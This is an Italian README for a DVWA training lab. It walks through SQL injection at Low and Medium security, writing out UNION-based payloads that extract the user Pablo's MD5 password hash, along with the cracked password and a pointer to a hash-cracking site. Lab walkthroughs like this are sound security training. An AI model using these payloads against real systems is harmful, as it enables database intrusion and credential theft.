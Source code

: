 
# Guida all'uso e sicurezza: SQL Injection e XSS su DVWA

Questa repository contiene una guida dettagliata su come eseguire test di sicurezza attraverso vulnerabilità SQL Injection e XSS Persistenti sulla piattaforma DVWA (Damn Vulnerable Web Application).

---

## Giorno 1: SQL Injection su DVWA (Low e Medium)

### Obiettivo
Estrarre i dati sensibili dell'utente "Pablo" e decifrare la sua password MD5.

### Requisiti
- DVWA configurato e funzionante.
- Livelli di sicurezza in DVWA impostati su:
  - `Low` per la prima parte.
  - `Medium` per la seconda parte.

### Parte 1: Modalità Low

#### Passaggi
1. Vai alla pagina SQL Injection:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`
2. Inserisci il seguente payload nel campo "User ID":
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```
3. Risultati attesi:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`
4. Decifra la password hash:
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde a `letmein`.
   - Utilizza uno strumento come [Crackstation](https://crackstation.net).

### Parte 2: Modalità Medium

#### Passaggi
1. Vai alla pagina SQL Injection:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`
2. Inserisci il seguente payload:
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```
3. Risultati attesi:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`
4. Decifra l'hash come nella modalità Low.

---
